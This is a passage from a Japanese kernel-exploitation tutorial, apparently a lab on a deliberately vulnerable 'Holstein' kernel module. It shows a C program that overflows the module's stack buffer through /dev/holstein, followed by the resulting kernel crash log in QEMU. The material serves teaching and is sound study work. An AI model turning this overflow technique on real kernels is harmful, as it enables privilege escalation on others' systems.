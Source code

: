 ```
module_write called
module_read called
module_close called
random: fast init done
```
期待通りに動いていることが分かります。また、カーネルモジュールが出したログを確認しても特にエラーは発生していません。

次にスタックオーバーフローを発生させてみます。こんな感じで良いでしょう。
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <unistd.h>

void fatal(const char *msg) {
  perror(msg);
  exit(1);
}

int main() {
  int fd = open("/dev/holstein", O_RDWR);
  if (fd == -1) fatal("open(\"/dev/holstein\")");

  char buf[0x800];
  memset(buf, 'A', 0x800);
  write(fd, buf, 0x800);

  close(fd);
  return 0;
}
```
実行します。
```
/ # ./pwn 
BUG: stack guard page was hit at (____ptrval____) (stack is (____ptrval____)..(____ptrval____))
kernel stack overflow (page fault): 0000 [#1] PREEMPT SMP PTI
CPU: 0 PID: 62 Comm: pwn Tainted: G           O      5.10.7 #1
Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.13.0-1ubuntu1.1 04/01/2014
RIP: 0010:memset_orig+0x33/0xb0
Code: 01 01 01 01 01 01 01 01 48 0f af c1 41 89 f9 41 83 e1 07 75 70 48 89 d1 48 c1 e9 06 74 39 66 0f 1f 84 00 00 00 00 00 48 ff c9 <48> 89 07 48 89 47 08 48 89 47 10 48 89 47 18 48 89 47 20 48 89 47
RSP: 0018:ffffc90000413a58 EFLAGS: 00000207
RAX: 0000000000000000 RBX: 0000000000000558 RCX: 0000000000000009
RDX: 00000000000002a8 RSI: 0000000000000000 RDI: ffffc90000414000
RBP: ffffc90000413a78 R08: 4141414141414141 R09: 0000000000000000
R10: ffffc90000414000 R11: 4141414141414141 R12: ffffc90000413aa8
R13: 00000000000002a8 R14: 00007ffe47aac5d0 R15: ffffc90000413ef8
FS:  00000000004051d8(0000) GS:ffff888003800000(0000) knlGS:0000000000000000
CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
CR2: ffffc90000414000 CR3: 000000000317a000 CR4: 00000000000006f0
Call Trace:
 ? _copy_from_user+0x70/0x80
 module_write+0x75/0xef [vuln]
Modules linked in: vuln(O)
---[ end trace 5d32e23a000a5292 ]---
RIP: 0010:memset_orig+0x33/0xb0
Code: 01 01 01 01 01 01 01 01 48 0f af c1 41 89 f9 41 83 e1 07 75 70 48 89 d1 48 c1 e9 06 74 39 66 0f 1f 84 00 00 00 00 00 48 ff c9 <48> 89 07 48 89 47 08 48 89 47 10 48 89 47 18 48 89 47 20 48 89 47
RSP: 0018:ffffc90000413a58 EFLAGS: 00000207
RAX: 0000000000000000 RBX: 0000000000000558 RCX: 0000000000000009
RDX: 00000000000002a8 RSI: 0000000000000000 RDI: ffffc90000414000
RBP: ffffc90000413a78 R08: 4141414141414141 R09: 0000000000000000
R10: ffffc90000414000 R11: 4141414141414141 R12: ffffc90000413aa8
```